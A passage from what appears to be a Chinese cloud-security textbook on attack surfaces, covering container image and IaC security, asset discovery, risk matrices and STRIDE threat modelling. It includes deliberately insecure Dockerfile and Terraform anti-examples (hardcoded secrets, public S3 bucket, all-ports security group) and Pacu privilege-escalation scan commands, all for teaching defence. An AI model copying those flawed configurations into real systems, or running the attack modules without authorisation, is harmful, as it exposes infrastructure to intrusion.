# 使用Docker Scout分析镜像组成
docker scout cves my-app:latest

# 检查镜像是否包含硬编码密钥
trivy image --scanners secret my-app:latest

# 检查基础镜像是否可信
# 验证镜像签名（Docker Content Trust）
export DOCKER_CONTENT_TRUST=1
docker pull my-registry/my-image:latest
```

```dockerfile
# 镜像安全的反面教材
FROM ubuntu:latest  # 使用latest标签，不可复现

RUN apt-get update && apt-get install -y curl wget  # 安装不必要的工具

COPY .env /app/.env  # 将含密钥的文件复制到镜像中

ENV DB_PASSWORD=supersecret  # 在环境变量中硬编码密码

USER root  # 以root用户运行应用

EXPOSE 22 80 443 3306  # 暴露不必要的端口
```

```dockerfile
# 镜像安全的最佳实践
FROM ubuntu:22.04@sha256:abc123...  # 固定版本和摘要

RUN apt-get update && apt-get install -y --no-install-recommends \
    python3=3.10.12-1~22.04 \
    && rm -rf /var/lib/apt/lists/*  # 清理缓存

# 使用多阶段构建，减少最终镜像大小
FROM python:3.11-slim AS builder
COPY requirements.txt .
RUN pip install --user -r requirements.txt

FROM python:3.11-slim
COPY --from=builder /root/.local /root/.local
COPY app.py /app/

# 使用非root用户运行
RUN useradd -r appuser
USER appuser

# 不暴露端口，由编排器管理
CMD ["python3", "/app/app.py"]
```

#### 19.2.5.3 IaC（基础设施即代码）安全

Terraform、CloudFormation、Pulumi等IaC工具的安全问题直接映射到云基础设施的安全性。

```hcl
# Terraform安全问题示例
# 问题1：硬编码凭据
provider "aws" {
  region     = "us-east-1"
  access_key = "YOUR_AWS_KEY_ID"
  secret_key = "YOUR_AWS_SECRET_KEY"
}

# 问题2：S3桶公开访问
resource "aws_s3_bucket" "data" {
  bucket = "my-public-data"
}

resource "aws_s3_bucket_acl" "data_acl" {
  bucket = aws_s3_bucket.data.id
  acl    = "public-read"  # 危险！
}

# 问题3：安全组过于宽泛
resource "aws_security_group" "web" {
  ingress {
    from_port   = 0
    to_port     = 65535
    protocol    = "tcp"
    cidr_blocks = ["0.0.0.0/0"]  # 允许所有IP访问所有端口
  }
}
```

```bash
# IaC安全扫描工具
# 1. tfsec - Terraform安全扫描
tfsec /path/to/terraform/

# 2. Checkov - 通用IaC安全扫描（支持Terraform/CloudFormation/K8s）
checkov -d /path/to/terraform/

# 3. cfn-nag - CloudFormation模板扫描
cfn_nag_scan --input-path template.yaml

# 4. KICS - 多平台IaC扫描
kics scan -p /path/to/terraform/ -o results.json
```

### 19.2.6 攻击面发现与评估方法

了解攻击面的类型之后，系统性地发现和评估攻击面是实施有效防御的关键步骤。

#### 19.2.6.1 云资产发现

在评估攻击面之前，首先需要全面了解云环境中存在哪些资产。很多组织的云环境存在"影子IT"——未通过正式渠道创建的云资源，这些资源往往缺乏安全管控。

```bash
# AWS资产发现
# 列出所有区域中的所有EC2实例
aws ec2 describe-regions --query 'Regions[].RegionName' --output text | while read region; do
  echo "=== $region ==="
  aws ec2 describe-instances --region "$region" \
    --query 'Reservations[*].Instances[*].[InstanceId,InstanceType,State.Name,PublicIpAddress]' \
    --output table 2>/dev/null
done

# 列出所有S3桶及其公开访问状态
aws s3api list-buckets --query 'Buckets[].Name' --output text | while read bucket; do
  status=$(aws s3api get-public-access-block --bucket "$bucket" 2>/dev/null)
  echo "$bucket: $status"
done

# 列出所有RDS实例
aws rds describe-db-instances \
  --query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBInstanceClass,PubliclyAccessible]' \
  --output table
```

```bash
# 多云资产发现工具
# 1. CloudQuery - 从所有云平台收集资产数据到SQL数据库
cloudquery sync config.yaml

# 2. Prowler - AWS安全评估
prowler aws --checks-directory checks/

# 3. ScoutSuite - 多云安全审计
scout aws --regions us-east-1 us-west-2

# 4. Steampipe - 使用SQL查询云资产
steampipe query "SELECT instance_id, public_ip_address FROM aws_ec2_instance WHERE public_ip_address IS NOT NULL"
```

#### 19.2.6.2 攻击面评估矩阵

发现资产后，使用以下矩阵系统性地评估各攻击面的风险等级：

| 攻击面 | 可能性 | 影响程度 | 检测难度 | 综合风险 |
|---|---|---|---|---|
| IAM过度授权 | 极高 | 极高 | 低（可通过工具扫描） | 极高 |
| 访问密钥泄露 | 极高 | 极高 | 中（需要监控GitHub等） | 极高 |
| 存储桶公开访问 | 高 | 极高 | 低（可自动化检测） | 高 |
| 元数据服务利用 | 高 | 高 | 中（需要网络监控） | 高 |
| 容器逃逸 | 中 | 极高 | 高（需要运行时监控） | 高 |
| 供应链攻击 | 中 | 极高 | 高（需要SCA工具） | 高 |
| 安全组配置错误 | 高 | 中 | 低（可自动化检测） | 中高 |
| DNS接管 | 中 | 高 | 中 | 中 |
| Serverless滥用 | 中 | 高 | 中 | 中 |

#### 19.2.6.3 自动化攻击面监控

攻击面不是静态的——随着业务变化，新的资源不断被创建，配置也在不断变化。持续的自动化监控是维持安全态势的关键：

```python
#!/usr/bin/env python3
"""
云攻击面自动化监控脚本示例
定期扫描云环境中的安全配置变化
"""
import boto3
import json
from datetime import datetime

def check_public_s3_buckets():
    """检查公开访问的S3桶"""
    s3 = boto3.client('s3')
    findings = []
    for bucket in s3.list_buckets()['Buckets']:
        name = bucket['Name']
        try:
            acl = s3.get_bucket_acl(Bucket=name)
            for grant in acl['Grants']:
                grantee = grant['Grantee']
                if grantee.get('URI') == 'http://acs.amazonaws.com/groups/global/AllUsers':
                    findings.append({
                        'type': 'PUBLIC_S3_BUCKET',
                        'severity': 'CRITICAL',
                        'resource': name,
                        'detail': f'Bucket {name} is publicly accessible',
                        'timestamp': datetime.utcnow().isoformat()
                    })
        except Exception as e:
            pass
    return findings

def check_overly_permissive_security_groups():
    """检查过于宽泛的安全组"""
    ec2 = boto3.client('ec2')
    findings = []
    for sg in ec2.describe_security_groups()['SecurityGroups']:
        for perm in sg['IpPermissions']:
            for ip_range in perm.get('IpRanges', []):
                if ip_range['CidrIp'] == '0.0.0.0/0':
                    port = perm.get('FromPort', 'ALL')
                    findings.append({
                        'type': 'OPEN_SECURITY_GROUP',
                        'severity': 'HIGH' if port in [22, 3389] else 'MEDIUM',
                        'resource': sg['GroupId'],
                        'detail': f'Security group {sg["GroupId"]} allows 0.0.0.0/0 on port {port}',
                        'timestamp': datetime.utcnow().isoformat()
                    })
    return findings

if __name__ == '__main__':
    all_findings = []
    all_findings.extend(check_public_s3_buckets())
    all_findings.extend(check_overly_permissive_security_groups())

    critical = [f for f in all_findings if f['severity'] == 'CRITICAL']
    print(f"扫描完成：共发现 {len(all_findings)} 个安全问题")
    print(f"其中严重问题 {len(critical)} 个")

    for finding in all_findings:
        print(f"[{finding['severity']}] {finding['detail']}")
```

### 19.2.7 常见误区

在进行云攻击面分析时，以下误区需要特别警惕：

**误区一：认为云提供商负责所有安全**

共享责任模型（见19.1节）明确了云提供商只负责"云的安全"（Security of the Cloud），客户需要负责"在云中的安全"（Security in the Cloud）。身份管理、数据加密、网络配置、应用安全都是客户的责任。

**误区二：只关注外部攻击面，忽视内部威胁**

云环境中，内部人员（员工、承包商）拥有合法凭据，可以通过正常渠道访问敏感资源。过度授权的IAM策略、缺乏审计日志、共享账户等问题使得内部威胁难以检测。

**误区三：认为容器比虚拟机更安全**

容器共享宿主机内核，其隔离性远弱于虚拟机。如果容器以特权模式运行或挂载了敏感目录，逃逸风险极高。容器安全需要额外的运行时防护（如Falco、Sysdig）。

**误区四：忽视元数据服务的安全**

云元数据服务是SSRF攻击后获取凭据的主要途径。IMDSv1已经被证明存在严重安全风险，但许多组织因为兼容性问题仍在使用。

**误区五：认为Serverless没有攻击面**

Serverless虽然减少了基础设施管理，但函数代码漏洞、环境变量泄露、过度授权的执行角色、事件注入等问题依然存在，且由于函数的无状态特性，传统的WAF和IDS难以有效防护。

**误区六：安全组等于防火墙**

安全组是简单的有状态包过滤器，不具备入侵检测、应用层过滤、SSL检查等高级防火墙功能。在云环境中，应结合安全组、NACL、WAF、网络防火墙等多层防护。

### 19.2.8 进阶：攻击面建模与威胁模拟

对于高级安全从业者，可以使用系统化的攻击面建模方法来发现潜在的攻击路径。

**STRIDE模型在云环境中的应用**：

| 威胁类型 | 云环境实例 | 典型攻击 |
|---|---|---|
| Spoofing（仿冒） | IAM凭据伪造、SAML令牌伪造 | 窃取Access Key冒充合法用户 |
| Tampering（篡改） | S3对象篡改、AMI镜像投毒 | 修改CI/CD构建产物 |
| Repudiation（抵赖） | CloudTrail被禁用或篡改 | 攻击者删除操作痕迹 |
| Information Disclosure（信息泄露） | S3公开、元数据泄露 | SSRF获取临时凭据 |
| Denial of Service（拒绝服务） | API限速攻击、资源耗尽 | 调用API创建大量资源导致账单爆炸 |
| Elevation of Privilege（权限提升） | IAM策略升级、容器逃逸 | 从普通用户提升到管理员 |

```bash
# 使用开源工具进行攻击路径模拟
# 1. Pacu - AWS攻击模拟框架
pacu
# > 模块：iam__enum_users_roles_policies_groups
# > 模块：iam__privesc_scan
# > 模块：s3__bucket_finder

# 2. ScoutSuite - 自动化安全审计
scout aws --regions all --report-dir ./reports

# 3. CloudSploit - 云安全配置扫描
node index.js --config config.js
```

### 本节总结

云环境攻击面可以归纳为五个核心层面和三个关键维度：



关键要点：

1. **IAM是第一防线也是第一攻击面**：过度授权的IAM策略、泄露的访问密钥、缺乏MFA是最常见的云安全风险
2. **数据存储配置错误是泄露的首要原因**：公开的S3桶、暴露的数据库、未加密的敏感数据
3. **元数据服务是云特有的高价值攻击面**：SSRF → 元数据 → 临时凭据 → 横向移动是经典的云攻击链（详见19.3节）
4. **容器和Serverless引入新的攻击维度**：容器逃逸、函数环境变量泄露、过度授权的执行角色
5. **供应链攻击正在快速增长**：CI/CD管道安全、镜像安全、IaC安全不容忽视
6. **攻击面是动态变化的**：必须通过自动化工具持续监控和评估

下一节（19.3）将深入探讨云元数据服务的安全机制，这是理解云攻击链的关键环节。
